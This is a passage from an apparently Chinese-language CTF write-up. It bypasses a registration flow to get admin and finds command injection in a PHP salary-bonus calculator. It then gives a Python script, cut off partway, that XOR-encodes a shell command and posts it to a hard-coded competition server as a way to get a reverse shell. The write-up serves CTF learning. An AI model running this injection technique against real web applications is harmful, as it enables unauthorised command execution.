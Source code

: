 先注册

![img](https://img.crzliang.cn/img/202406012237584.jpg)

通过信息重置即可绕过成为管理员

![img](https://img.crzliang.cn/img/202406012237585.jpg)

![img](https://img.crzliang.cn/img/202406012237586.jpg)

 

在工资的年终奖分配计算那里存在命令执行

![img](https://img.crzliang.cn/img/202406012237587.jpg)

写一个脚本进行反弹shell的操作

```python
import requests
from bs4 import BeautifulSoup
from urllib.parse import urlencode
import os

def xor_encrypt(plaintext, key):
    key_ord = ord(key)

    ciphertext = ""
    for char in plaintext:
        char_ord = ord(char)
        xor_result = char_ord ^ key_ord

        xor_result_char = chr(xor_result)

        ciphertext += xor_result_char

    return ciphertext

def print_ones(plaintext_length):
    return "1" * plaintext_length

def main():
    plaintext = os.sys.argv[1]
    key = "1"  # 00110001 是字符 '1' 的ASCII码

    ciphertext = xor_encrypt(plaintext, key)
    ones = print_ones(len(plaintext))
    result = req(ciphertext, ones)
    lines = result.split("\n")[1:]
    print("cmd: " + plaintext)
    index = lines[0].find(plaintext)
    lines[0] = lines[0][index + len(plaintext) :]
    result = "\n".join(lines)
    print(result)

def req(basicSalary, performanceCoefficient):
    url = "http://101.200.138.180:60000/gongzi_iscc.php"

    payload = urlencode(
        {
            "basicSalary": basicSalary,
            "performanceCoefficient": performanceCoefficient,
            "calculate": "",
        }
    )
    cookies = {"PHPSESSID": "ko3ccuvbc3hla124vm57ge3b6u"}
```